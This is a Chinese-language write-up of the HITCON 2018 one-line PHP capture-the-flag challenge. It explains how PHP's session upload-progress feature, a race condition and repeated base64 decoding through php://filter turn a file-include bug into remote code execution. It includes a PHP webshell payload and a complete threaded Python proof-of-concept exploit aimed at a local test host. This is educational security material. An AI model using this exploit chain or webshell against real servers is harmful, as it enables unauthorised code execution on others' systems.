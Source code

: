 # hitcon-2018-one-line-php-challenge

题目就一行 PHP，简洁明了
```php
<?php
  ($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);
```

从题目可以看出是需要我们通过包含某文件来 getshell，那么就需要上传 shell 才行，题目却没有上传功能，这里就需要用到 session.upload_progress 的知识点

## session.upload_progress

![session](img/session.png)

`ini_get['session.upload_progress.name']` 默认值为 `"PHP_SESSION_UPLOAD_PROGRESS"`
`ini_get('session.upload_progress.prefix')` 默认值为 `"upload_progress_"`

![default](img/default.png)


因此当 `session.upload_progress.enabled` 开启（默认开启）时，我们只需要在上传文件的同时，上传一个 `PHP_SESSION_UPLOAD_PROGRESS` 为 name 的变量值，就能在 `$_SESSION` 数组中产生一个如下形式的键值

```php
'upload_progress_' . $_POST['PHP_SESSION_UPLOAD_PROGRESS']
```

`$_POST['PHP_SESSION_UPLOAD_PROGRESS']` 值可控，我们便可以写入 shell 到 session 文件。

但是该题并没有用到 session，无法产生 session 文件，这里有另一个 trick

POST 请求中只要包含 `PHP_SESSION_UPLOAD_PROGRESS` 这个键值，并带上 `PHPSESSID`，同时进行文件上传，就会直接创建一个`session` 文件。

但如果 `session.upload_progress.cleanup=On`（默认开启），POST 数据一旦读取完毕，就会清空 session 内容，因此还需要用到条件竞争

## php 的 base64_decode
session 文件有了shell，但文件开头是 `upload_progress_<?php shell>`，题目却需要开头 6 个字符是 `@<?php`。因此需要利用 php base64 解码函数的特性。

base64 解码函数可以接受的字符范围是[A-Za-z0-9+/=]，但是如果 php 的 `base64_decode` 遇到了不在此范围内的字符，php 就会直接跳过这些字符，只把在此范围的字符连起来进行解码。

借助此特性，我们可以利用该函数，把 shell encode 多次，然后与 `upload_progress_` 拼接，再 decode 多次，使得其刚好消除。

Orange 官方解法是在 payload 前加了 ZZ，形成 `upload_progress_ZZ`

base64 decode是每 4 个字节进行解码的，`upload_progress_ZZ` 去掉 `_` 刚好 16 个字符，一次解码 12 个字符，只有 4 个范围内，二次解码剩 3 个，都不在范围内，第 3 次解码则为空。

![decode](img/decode.png)

因此最终的 payload 为：
`"upload_progress_ZZ".base64_encode(base64_encode(base64_encode('@<?php eval($_GET['cmd']);')));`

另外还有一个需要注意的点
`php://filter` 在 `base64_decode` 遇到 `XXX=YYY` 这种情况时会出错，因此在三次 decode 过程中都不能有 `=`

Orange 师傅的 PoC：

```Python
import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool



HOST = 'http://127.0.0.1:8001/'
sess_name = 'iamorange'

headers = {
    'Connection': 'close',
    'Cookie': 'PHPSESSID=' + sess_name
}

payload = '@<?php eval($_GET["cmd"]);?>'


while 1:
    junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
    x = b64encode(payload + junk)
    xx = b64encode(b64encode(payload + junk))
    xxx = b64encode(b64encode(b64encode(payload + junk)))
    if '=' not in x and '=' not in xx and '=' not in xxx:
        payload = xxx
        print payload
        break

def runner1(i):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload + 'Z'
    }
    while 1:
        fp = open('/etc/passwd', 'rb')
        r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
        fp.close()

def runner2(i):
    filename = '/var/lib/php/sessions/sess_' + sess_name
    filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
    # print filename
    while 1:
        url = '%s?orange=%s' % (HOST, filename)
        r = requests.get(url, headers=headers)
        c = r.content
        if c and 'orange' not in c:
            print [c]


if sys.argv[1] == '1':
    runner = runner1
else:
    runner = runner2

pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)
```


除了 `base64_decode` 外，也可以用其他 encode 方法，例如 `strip_tags`

## References
[hitcon 2018受虐笔记一:one-line-php-challenge 学习](http://wonderkun.cc/index.html/?p=718)

[HITCON CTF 2018 Web](http://blog.kaibro.tw/2018/10/24/HITCON-CTF-2018-Web/)

